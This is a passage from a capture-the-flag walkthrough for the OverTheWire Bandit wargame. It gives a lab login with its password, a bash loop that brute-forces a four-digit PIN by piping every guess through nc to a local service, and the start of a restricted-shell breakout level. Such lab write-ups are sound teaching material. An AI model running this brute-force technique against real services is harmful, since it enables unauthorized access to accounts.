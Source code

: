 **Recommended Commands**: (none for this level, you will need to create your own solution)

**Login**:
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
# Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

**Theory**: We need to try all PINs from 0000 to 9999. We'll create a script to generate all combinations and send them to the service.

**Solution**:

Step 1: Create workspace
```bash
bandit24@bandit:~$ mkdir /tmp/mybrute24
bandit24@bandit:~$ cd /tmp/mybrute24
```

Step 2: Create brute force script
```bash
bandit24@bandit:/tmp/mybrute24$ cat > brute.sh << 'EOF'
#!/bin/bash
for pin in {0000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin"
done
EOF
```

Step 3: Make it executable and run
```bash
bandit24@bandit:/tmp/mybrute24$ chmod +x brute.sh
bandit24@bandit:/tmp/mybrute24$ ./brute.sh | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p4ssw0rd

Exiting.
```

Note: The actual password will be different when you run this - the server generates it.

**Password for Level 25**: Check the output from your brute force!

---

## Level 25 → Level 26

> **Level Goal**: Logging in to bandit26 from bandit25 should be fairly easy... The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

**Recommended Commands**: `ssh`, `cat`, `more`, `vi`, `ls`, `id`, `pwd`

**Login**:
```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
# Password: (from previous level)
```
